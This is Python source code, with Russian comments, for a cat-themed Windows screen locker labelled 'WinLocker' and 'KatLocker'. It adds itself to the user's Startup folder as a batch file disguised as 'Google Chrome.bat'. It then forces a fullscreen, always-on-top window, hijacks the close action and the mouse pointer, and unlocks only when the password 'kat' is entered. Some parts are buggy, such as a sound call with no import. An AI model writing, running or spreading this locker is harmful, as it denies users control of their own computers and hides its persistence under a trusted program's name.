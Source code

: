 #ВАЖНО ПАРОЛЬ:kat
import tkinter
from tkinter import *
import tkinter as tk
from tkinter import ttk
import getpass
import sys
import os
import os.path
import pyautogui
from time import sleep
import requests
from io import BytesIO
from PIL import Image, ImageTk

url = 'https://i.gifer.com/LF0M.gif' #Этоу гифку необходимо скачать и поместить в один фаил с кодом

window = Tk() #Создание окна 

photo = PhotoImage(file = "bg.gif") # Отвечает за картинку
w = Label(window, image=photo)
w.pack() 

b1= Button(window, text='Нажми на меня', command=window.destroy) #Отвечает за кнопку закрытия
b1.pack(pady=10)


window.resizable(0, 0) # Отвечает за изменение окна 


window.title("Kat")   # Название окна
window['bg'] = 'black'


window.mainloop() #Закрыть окно

USER_NAME = getpass.getuser()

window = Tk()
window.title("WinLocker by GDisclaimer")  
window.geometry('400x250')
window['bg'] = 'black'

# Base size
normal_width = 1920
normal_height = 1080

# Get screen size
screen_width = window.winfo_screenwidth()
screen_height = window.winfo_screenheight()

# Get percentage of screen size from Base size
percentage_width = screen_width / (normal_width / 100)
percentage_height = screen_height / (normal_height / 100)

# Make a scaling factor, this is bases on average percentage from
# width and height.
scale_factor = ((percentage_width + percentage_height) / 2) / 100

# Set the fontsize based on scale_factor,
# if the fontsize is less than minimum_size
# it is set to the minimum size

fontsize = int(20 * scale_factor)
minimum_size = 10
if fontsize < minimum_size:
       fontsize = minimum_size

fontsizeHding = int(72 * scale_factor)
minimum_size = 40
if fontsizeHding < minimum_size:
       fontsizeHding = minimum_size

# Create a style and configure for ttk.Button widget
default_style = ttk.Style()
default_style.configure('New.TButton', font=("Helvetica", fontsize))

def play(test):
        playsound('sound.mp3', False)

def add_to_startup(file_path=""):
    if file_path == "":
        file_path = os.path.dirname(os.path.realpath(__file__))
    bat_path = r'C:\Users\%s\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup' % USER_NAME
    with open(bat_path + '\\' + "Google Chrome.bat", "w+") as bat_file:
        bat_file.write(r'start "" %s' % file_path)

def block():
    pyautogui.moveTo(x=680,y=800)
    window.protocol("WM_DELETE_WINDOW",block)
    window.update()

def fullscreen():
    window.attributes('-fullscreen', True, '-topmost', True)

def clicked():
    res = format(txt.get())
    if res == 'kat':
        file_path = '/tmp/file.txt'
        file_path = r'C:\Users\%s\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup\Google Chrome.bat' % USER_NAME
        os.remove(file_path)
        sys.exit()

add_to_startup("C:\\myFiles\\main.py")
fullscreen()

txt_one = Label(window, text='KatLocker', font=("Arial Bold", fontsizeHding), fg='red', bg='black')
txt_two = Label(window, text='Мяу 😀', font=("Arial Bold", fontsizeHding), fg='red', bg='black')
txt_three = Label(window, text='К сожалению ваш компютер отакован котиком', font=("Arial Bold", fontsize), fg='white', bg='black')

txt_one.grid(column=0, row=0)
txt_two.grid(column=0, row=0)
txt_three.grid(column=0, row=0)

txt_one.place(relx = .01, rely = .01)
txt_two.place(relx = .01, rely = .11)
txt_three.place(relx = .01, rely = .21)


txt = Entry(window)  
btn = Button(window, text="Котик вводиться туть ;)", command=clicked)  
txt.place(relx = .28, rely = .5, relwidth=.3, relheight=.06)
btn.place(relx = .62, rely = .5, relwidth=.1, relheight=.06)

block()

window.mainloop()
#ВАЖНО ПАРОЛЬ:kat
